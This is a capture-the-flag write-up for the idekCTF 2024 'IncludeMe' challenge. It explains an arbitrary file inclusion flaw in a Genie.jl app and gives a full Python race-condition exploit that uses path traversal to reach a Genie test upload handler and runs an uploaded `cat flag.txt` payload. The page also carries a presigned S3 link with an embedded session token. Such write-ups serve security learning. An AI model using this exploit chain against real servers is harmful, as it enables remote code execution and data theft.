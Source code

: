 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466VE2MTJ3P%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044354Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJHMEUCIH8%2BIlAVFkNfogn%2FjWScOBbn0swWVEIE5gute0syGNvIAiEA3L36RSWdUHaj3EW8na%2F9eH1D0ei3pfXONXtgxP8Y3MYqiAQI%2Ff%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDIzxmTZ%2BNZ91RGGf8yrcA4Tqg8%2Bbi43b9OsNzvM%2Bvz7yYrISi3fgf91vJS9AGhaDCkZNlGYzjzSynQLf4NWXI0SYPudu8ezxIPZxPuWYk5ggBatVsISMsH8ALU2wbAw3A1IuOAxG1dgaCPjjELGEADICCz%2FwWxTZxTgwz9edEVxLiqi18FeWRGxeGjXV%2FzTKL14BM%2FirGO0Yw6xo6v0xWX3kvpnid01F94yf%2FoDtg0mtT0ynRfbqri34oIg5leSujGXVzYnHN6VPIT0yQ8PYJGGK9u5o5DolCGG%2FegOHH8LwHk3tLFWx5VCsqaPMYbxw4bpafhQ0F2HOLTrzQJTHAAafPWSbTYWTUnBR6GveHfKowwDd%2BiWPkX1tu%2BxDHSoMSewjNBEVS9SY59dXZNUGvXaVsf5Z2K7JwOP0ZEbKq3WzD%2FUgRx3Px6J%2BgM9tfAH1ZcELQGRJ573yUonPbOPmNxkco%2Bv5kuW8hQ4rKmfq9lS1kgK7Ei8joiWMy34Ag7AH3CzyvGqqvOeydJAV8DRGRokMRLTnC5wWnDqYkV%2ByOFbGv2xID34zKy9e9i3l1Hkpvg99Wmx3DrUt1llmDowuvwQIR3KRdEo3h9A5EpG1N96Ws%2BWWD5Q8FOEcUDw1vQpzkAqKCVTPx2FxaVJiMJySxcEGOqUBmCJCQLamOki74VSfjOmUha6KIQu%2BcSD2ciktNm0N8ZGuYb6cPqq7rgACOe2el%2FC0rt9PEo6dfzqDB1Y9IktkUBH7HRtAz%2BW1YyIgHg93bNOSOU6Qi5aIHEfHEOSythtWzuCIubMQdeX6CAZEY1DujrjDlBVMPy2MnBsa7TgPlZlpjboo5%2BJC67dNBqq%2Fi47kgRaj2InaAMpnaPebUd6NwJk%2FpKWs\&X-Amz-Signature=5197095a8f93d6882ea89c165b97a8245a85e8abf7d1cd835646927ce59997f7\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
